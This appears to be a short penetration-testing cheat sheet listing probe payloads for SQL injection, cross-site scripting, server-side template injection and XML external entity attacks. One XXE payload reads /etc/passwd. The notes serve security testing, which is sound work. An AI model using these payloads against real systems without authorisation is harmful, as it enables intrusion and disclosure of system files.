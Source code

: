 # 3_injection_attacks

## Injection attacks

- Check for SQL injection points using

```
' or 1=1--
```
```
' or 1=1 -- -
```

- Check for XSS (cross site scripting) vulnerabilities using

```
<h1>Hi</h1>
```
```
<script>alert('Hi');</script>
```

- Check for SSTI (server side template injection) using

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

See [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for more information on server side template injection.

## XXE
Two payloads you can try are listed below.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
